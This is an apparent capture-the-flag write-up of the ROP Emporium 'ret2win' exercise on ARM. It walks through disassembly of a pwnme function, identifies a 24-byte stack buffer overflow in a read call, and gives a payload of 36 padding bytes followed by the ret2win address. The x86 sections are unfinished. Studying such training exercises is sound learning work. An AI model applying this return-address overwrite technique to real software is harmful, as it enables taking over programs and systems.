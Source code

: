 # ret2win

## x86_64: (TODO)

## x86: (TODO)

## ARM:
```asm
00010570 <pwnme>:
   10570:	e92d4800 	push	{fp, lr}
   10574:	e28db004 	add	fp, sp, #4
   10578:	e24dd020 	sub	sp, sp, #32
```
The `pwnme` function prologue declares 32 bytes of stack.   
`fp = old_sp + 4, sp = old_sp - 32` so `sp = fp - 36`.
```asm
000105b0 <pwnme + 0x40>:
   105b0:	e24b3024 	sub	r3, fp, #36
   105b4:	e3a02038 	mov	r2, #56
   105b8:	e1a01003 	mov	r1, r3
   105bc:	e3a00000 	mov	r0, #0
   105c0:	ebffff80 	bl	103c8 <read@plt>
```
Then, the read function is called like this:   
`read(0, fp - 36, 56)`  
There is a 24 byte buffer overflow that allows us to overwrite `pc`
```asm
000105d0 <pwnme + 0x60>:
   105d0:	e24bd004 	sub	sp, fp, #4
   105d4:	e8bd8800 	pop	{fp, pc}
```
At the end, `sp` is restored to its old value and then are popped `fp` and `pc`.   
Thus, to redirect the execution, we need to write an address 36 bytes after `sp`.

We have `000105ec <ret2win>` so the final payload is:   
- PADDING (36 bytes)
- 0x105ec

![exploit](https://github.com/Arkturius/ROPEmporium/blob/markdown/.resources/ret2win_exploit.png)
